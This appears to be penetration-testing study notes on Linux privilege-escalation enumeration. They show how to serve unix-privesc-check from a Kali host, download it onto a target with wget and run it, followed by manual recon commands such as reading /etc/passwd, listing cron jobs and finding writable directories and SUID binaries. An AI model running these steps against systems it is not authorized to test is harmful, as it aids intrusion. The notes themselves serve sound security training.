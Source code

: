 ## Linux Enumeration

### Automatic Enumeration
Searching explicitly for privesc opportunities:

On Kali host:
```bash
cp /usr/bin/unix-privesc-check/unix-privesc-check .
python3 -m http.server
```
On target machine:
```bash
wget http://<our IP>/unix-privesc-check
```
```bash
chmod +x unix-privesc-check
```
```bash
unix-privesc-check standard > output.txt
```

### Manual Enumeration
For fine grained/specific enumeration items see the glossary below. Hopefully a standard privesc check as detailed above should be sufficient, but in case it isn't.

File permissions
```bash
ls -l
```
Get context about the current user:
```bash
id
```
Enumerate users on the machine:
```bash
cat /etc/passwd
```
Enumerate the functional role of the machine:
```bash
hostname
```
OS and system version enumeration:
```bash
uname -a
```
alternatives to the same effect:
```bash
cat /etc/os-release
```
```bash
cat /etc/issue
```
List running processes:
```bash
ps aux
```
TCP/IP information:
```bash
ifconfig a
```
Or if you happen to be prodding at a RHEL or Arch machine for some god forsaken reason:
```bash
ip a
```
Network routing information on Debian based systems:
```bash
routel 
```
or if that fails:
```bash
route
```
To see active network connections:
```bash
ss -anp
```
The `iptables` command is unlikely to be available to our peon-tier user by default on account of it being an admin privilege by default. However we may still be able to view some config via:
```bash
cat /etc/iptables/rules.v4
```
Enumerate cron jobs:
```bash
ls -lah /etc/cron*
```
and the current users scheduled jobs:
```bash
crontab -l
```
Jobs running as root will not appear when querying like this, for that run as root (although its hard to imagine when we might want to do this if we already have root...):
```bash
sudo crontab -l
```
Packages installed via `dpkg` (Debian package manager):
```bash
dpkg -l
```
Find every directory the current user can write to:
```bash
find / -writable -type d 2>/dev/null
```
List drives mounted at boot time:
```bash
cat /etc/fstab
```
in addition `mount` should tell us everything that's currently mounted:
```bash
mount
```
Available disks:
```bash
lsblk
```
Loaded kernel modules:
```bash
lsmod
```
For more info on a kernel module that we've taken an interest in:
```bash
/sbin/modinfo <intriguing module>
```
Find SUID marked binaries:
```bash
find / -perm -u=s -type f 2>/dev/null
```
